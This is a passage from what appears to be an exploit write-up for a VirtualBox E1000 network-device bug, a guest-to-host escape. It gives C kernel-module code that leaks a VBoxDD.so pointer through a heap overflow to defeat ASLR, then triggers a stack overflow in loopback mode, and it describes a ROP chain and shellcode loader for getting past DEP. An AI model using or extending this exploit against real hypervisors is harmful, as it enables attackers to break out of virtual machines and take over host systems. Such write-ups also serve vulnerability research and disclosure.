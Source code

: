 ```c
        stage_1_overflow_heap_buffer(mmio, tx_ring, i);
        leaked_bytes[i] = stage_1_leak_byte();

        printk(KERN_INFO PFX"Byte %d leaked: 0x%02X\n", i, leaked_bytes[i]);
    }

    uint64_t leaked_vboxdd_ptr = *(uint64_t*)leaked_bytes;
    uint64_t vboxdd_base = leaked_vboxdd_ptr - LEAKED_VBOXDD_RVA;
    printk(KERN_INFO PFX"Leaked VBoxDD.so pointer: 0x%016llx\n", leaked_vboxdd_ptr);
    printk(KERN_INFO PFX"Leaked VBoxDD.so base: 0x%016llx\n", vboxdd_base);

    return vboxdd_base;
}
```

It has been said that in order for the integer underflow not to lead to the stack buffer overflow, certain E1000 registers should been configured. The idea is that the buffer is being overflowed in e1kHandleRxPacket function which is called while handling Tx descriptors in the loopback mode. Indeed, in the loopback mode the guest sends network packets to itself so they are received right after being sent. We disable this mode so e1kHandleRxPacket is unreachable.

### DEP Bypass
We have bypassed ASLR. Now the loopback mode can be enabled and the stack buffer overflow can be triggered.

```c
void stage_2_overflow_heap_and_stack_buffers(void* mmio, void* tx_ring, uint64_t vboxdd_base) {
    off_t buffer_pa;
    void* buffer_va;
    alloc_buffer(&buffer_pa, &buffer_va);

    stage_2_set_up_buffer(buffer_va, vboxdd_base);
    stage_2_trigger_overflow(mmio, tx_ring, buffer_pa);

    free_buffer(buffer_va);
}

void stage_2_main(void* mmio, void* tx_ring, uint64_t vboxdd_base) {
    printk(KERN_INFO PFX"##### Stage 2 #####\n");

    e1000_enable_loopback_mode(mmio);
    stage_2_overflow_heap_and_stack_buffers(mmio, tx_ring, vboxdd_base);
    e1000_disable_loopback_mode(mmio);
}
```

For now, when the last instruction of e1kHandleRxPacket is executed the saved return address is overwritten and control is transferred anywhere the attacker wants. But DEP is still there. It is bypassed in a classical way of building a ROP chain. ROP gadgets allocate executable memory, copy a shellcode loader into and execute it.

### Shellcode
The shellcode loader is trivial. It copies the beginning of the overflowing buffer next to it.
